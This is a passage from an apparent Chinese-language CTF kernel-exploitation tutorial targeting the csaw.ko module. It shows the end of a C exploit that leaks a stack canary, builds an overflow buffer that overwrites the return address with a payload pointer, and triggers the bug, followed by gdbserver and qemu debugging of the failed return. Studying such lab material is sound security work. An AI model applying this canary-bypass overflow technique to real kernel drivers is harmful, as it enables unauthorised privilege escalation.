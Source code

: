 ```
    //memset(buffer,0x41,64);
    for(i = 0;i&lt;4;i++){
        for(j = 0;j&lt;16;j++){
            printf("%02x ",buffer[i*16+j] &amp; 0xff);
        }
        printf(" | ");
        for(j = 0;j&lt;16;j++){
            printf("%c",buffer[i*16+j] &amp; 0xff);
        }
        printf("n");
    }
    char canary[4] = {0};
    memcpy(canary,buffer+32,4);
    printf("CANARY:");
    for(i = 0;i&lt;4;i++){
        printf("%02x",canary[i] &amp; 0xff);
    }
    printf("n");
    char poc[84] = {0};
    memset(poc,0x41,76);
    memcpy(poc+64,canary,4);//set canary
    *((void**)(poc+64+4+4)) = &amp;payload;
    printf("[*]payload:%sn",poc);
    printf("Triger bug:n");
    //init tf struct;
    prepare_tf();
    write(fd,poc,76);
    return 0;
}
```

**1. 调试exploit**

还是像之前一样，设置gdbserver，并且把csaw.ko这个模块的信息传递给gdb。

先确定模块代码节地址：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0163cc2809bf7f75c3.png)

这一步之后，gdbserver连接，添加symbol-file之后，对有漏洞的函数下断，就可以回到qemu中，启用exploit程序了。

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014d168b8c658b2694.png)

我们对ret的地方下断点，然后c过去：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01597443abe7936a3e.png)

查看一下栈顶的情况：

[![](./img/85848/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01924aa209a56cc197.png)

出问题了，并没有要ret到payload地址去。

**2. 发现问题**

既然已经ret不到payload地址上，那么我们需要往前找一找，单步一下看看栈顶的变化，找出造成这种情况的原因：
